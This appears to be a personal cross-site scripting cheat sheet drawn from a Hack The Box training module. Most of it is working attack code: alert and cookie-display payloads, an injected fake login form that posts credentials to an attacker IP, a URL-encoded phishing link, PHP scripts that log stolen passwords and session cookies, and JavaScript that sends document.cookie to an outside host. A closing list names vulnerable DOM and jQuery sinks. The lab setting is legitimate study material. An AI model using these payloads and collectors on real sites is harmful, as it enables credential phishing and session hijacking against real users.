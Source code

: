 #### Payloads
Basic payload
```html
<script>alert(window.origin)</script>
```

Basic payload to display cookie
```html
<script>alert(document.cookie)</script>
```

Payload in case alert() is blocked. Stops rendering HTML and turns it into plaintext.
```html
<script><plaintext></script>
```

Payload to pop up browser print dialog (unlikely to be browser-blocked)
```html
<script>print()</script>
```

Payload that does not contain \<script> tag (useful for DOM attacks). Creates new HTML image object with an onerror that triggers when the image cannot be found:
```html
<img src="" onerror=alert(window.origin)>
```
##### More Payloads
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or [PayloadBox](https://github.com/payloadbox/xss-payload-list)
#### Tools
 [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)

#### Phishing Exploit Example
This example was used in HTB's XSS module as an example of how to phish using an XSS exploit.

Example HTML of a basic form
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

XSS script used to test for XSS on the img display page (begins with a closing tag to close the IMG tag, and ends with the beginning of a comment to inactivate the rest of the HTML on page)
```HTML
"'><script>alert(window.origin)</script><!--
```

XSS script used to (1) inject a basic form, (2) have the form submit to our controlled server on port 800, (3) remove the display of the URL textbox on the original img display page that has the id 'urlform':
```html
"'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.3:800><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

Phishing URL to be sent to victim with the XSS script embedded to execute on the img display page:
```url
http://10.129.231.158/phishing/index.php?url=%22%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.3:800%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

The index.php needed to capture phished credentials:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

The command to start a php server to use the index.php created:
```shell
$ sudo php -S 0.0.0.0:800
```

#### Session Hijacking Example
This example was used in HTB's XSS module as an example of session hijacking by stealing a cookie using blind XSS

Example of how a remote script is loaded:
```html
	<script src="http://OUR_IP/script.js"></script>
```

Example of testing fields (to identify vulnerable field) by modifying the source location:
```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

Example of payloads to steal session cookies (to be written into script.js and stored on webserver):
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

When victim views vulnerable page with XSS payload, will trigger 2 requests - (1) to the remote server to obtain script.js and (2) to index.php on the remote server with the cookie information. The index.php needed to steal session cookies:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```



#### Vulnerable HTML and JS
##### HTML
JavaScript code <script></script>
CSS Style Code <style></style>
Tag/Attribute Fields <div name='INPUT'></div>
HTML Comments <!-- -->
##### Javascript
- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`
##### jQuery
- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`